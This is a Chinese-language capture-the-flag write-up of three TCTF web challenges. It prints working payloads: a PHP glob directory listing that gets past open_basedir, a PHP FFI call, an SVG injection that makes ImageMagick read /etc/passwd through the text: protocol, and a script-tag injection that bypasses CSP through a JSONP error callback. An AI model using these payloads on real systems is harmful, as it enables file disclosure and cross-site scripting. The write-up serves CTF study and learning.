


# TCTF writeup by r00t

两道web进决赛，尬笑。其实本来还可以接着做的，但是看不到希望就放弃了，结果进决赛了，挺突然的。

## Welcome

flag{this_is_a_sample_flag}

## easyphp

开着 open_basedir 和 disable_functions，可以用 DirectoryIterator 列一下目录。

```php
$it = new DirectoryIterator("glob:///*");foreach($it as $i){echo $i." ";}
```

发现根目录存在`flag.h flag.so`，两个文件，根据 phpinfo()得到的开着 FFI 扩展，大概是 load 这个 flag.h 调用里面的函数，但一直没找到能绕过的方法。后来发现似乎有时能 file_get_contents，读到`/flag.h`

```h
#define FFI_LIB "/flag.so"
#define FFI_SCOPE "flag"

char* flag_fUn3t1on_fFi();
```

大概是其他人做题的时候破坏了环境，不过既然已经读到了就直接打出去了

```php
$ffi = FFI::load("/flag.h");
$flag = $ffi->flag_fUn3t1on_fFi();
var_dump(FFI::string($flag));
```

flag{FFi_1s_qu1T3_DANg1ouS}

## Wechat Generator

一个生成微信聊天截屏的程序，可以预览或者分享。当创建一个分享链接的时候，存在`http://pwnable.org:5000/image/KHnUHX/png`这样一个图片，在测试的时候把 png 换成 svg，jpg 甚至是 mp4 都是可以转换的，猜测后面是 ImageMagick。

当类型是 svg 的时候可以看到插入的 text 标签

```xml
<text font-family="SimHei,SimHei" font-size="72">Me too!!!</text>
<image x="360" y="-60" height="100" xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="http://pwnable.org:5000/static/emoji/smile.png" />
<text x="460" font-family="SimHei,SimHei" font-size="72"></text>
```

经过测试发现方括号内的"没有被转义，从而导致注入。ImageMagick 之前存在过 svg 导致的代码执行，翻了翻资料找了空指针公开赛的一个非预期[https://mp.weixin.qq.com/s/rMh-hABCdGpYpGqtFFiKOA](https://mp.weixin.qq.com/s/rMh-hABCdGpYpGqtFFiKOA)，（发现这个非预期的作者竟然是 0ops 成员，大喜），`text:`协议可以把文本画在图片上。
构造一个请求

```json
data = [
  { "type": 0, "message": "Love you!" },
  {
    "type": 1,
    "message": "Me too!!![smile\"/><image xlink:href=\"text:/etc/passwd\"/><a p=\"]"
  }
]
```

可以成功读取到 passwd



因为是 python 程序，所以试探性的读一下 app.py 读到了源码，不过不管怎么操作，都只能读到一部分



根据源码，发现了一个神秘的路径`/SUp3r_S3cret_URL/0Nly_4dM1n_Kn0ws`，一个 xss，这就解释通为什么所有页面都带着`img-src * data:; default-src 'self'; style-src 'self' 'unsafe-inline'; connect-src 'self'; object-src 'none'; base-uri 'self'`这个 csp 了。

根据策略，需要找到了一个可控的 html 加载一个同源的 script 来绕过。可以把 image 那个地方的 png 换成 htm 产生一个可操作的 html 文档。但是可控的同源 js 就不太好找了，最后发现可以在`/share`中创建一个`previewid="}alert("1");{"`在`/image`中产生一个可控的报错。

```json
{"error": "Convert exception: unable to open image `previews/"}alert("1");{"': No such file or directory @ error/blob.c/OpenBlob/2874"}
```

但是直接用 js 引进来会产生语法错误，这里试了好久，最后发现出题人留了个 callback 参数，可以避免这个语法错误（狂喜

至此，构造一个 script 标签把报错进入进来就可以了

```json
data = [
  {
    "type": 1,
    "message": "a[a.png\"/></svg><script srsrcc=\"/image/moUOAB/png?callback=iii\"></script><!--]"
  }
]
```

```html
<text font-family="SimHei,SimHei" font-size="72">a</text>
<image x="40" y="-60" height="100" xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="http://pwnable.org:5000/static/emoji/a.png"/>
</svg>
<script type="application/javascript" src="/image/moUOAB/png?callback=iii"></script>
<!--.png" /><text x="140" font-family="SimHei,SimHei" font-size="72"></text>
```

成功弹窗，提交后拿到flag
